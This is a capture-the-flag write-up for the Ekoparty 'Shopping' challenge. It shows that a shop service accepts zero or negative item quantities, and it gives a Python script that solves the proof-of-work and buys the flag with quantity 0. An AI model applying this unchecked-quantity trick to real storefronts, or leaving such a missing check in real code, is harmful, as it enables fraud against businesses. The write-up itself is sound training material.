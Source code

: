 # Shopping (Pwn, 352p, 90 solved)

A bit of an overstatement to call this `pwn`.
After passing some PoW we get access to a black-box shopping service:

```
Welcome to Ekoparty shopping Center
Feel free to buy up to 5 items that you may like
Use wisely your coins, have fun!


You have 50 coins
What do you wanna buy today?
1. t-shirt		10
2. short		20
3. stickers		1
4. flag			?
```

If we select an item and quantity it will subtract `price*quantity` from our coins if we had enough.
The trick here is to notice that we can pass 0 or even negative numbers as quantity, and the application doesn't check it.
If we pass a negative number it will give us coins.
But we don't even need that much, we can just buy 0 or -1 flags and it will be enough.

We run:

```python
import hashlib
import re

import os

from crypto_commons.netcat.netcat_commons import nc, send, interactive


def PoW(task):
    while True:
        data = os.urandom(10)
        if hashlib.sha1(data).hexdigest()[0:6] == task:
            return data


def main():
    url = "shopping.ctf.site"
    port = 21111
    s = nc(url, port)
    data = s.recv(9999)
    task = re.findall("== (.*)", data)[0]
    send(s, PoW(task))
    print(s.recv(9999))
    send(s, "4")
    print(s.recv(9999))
    send(s, "0")
    print(s.recv(9999))
    interactive(s)


main()
```

and we get `EKO{d0_y0u_even_m4th?}`
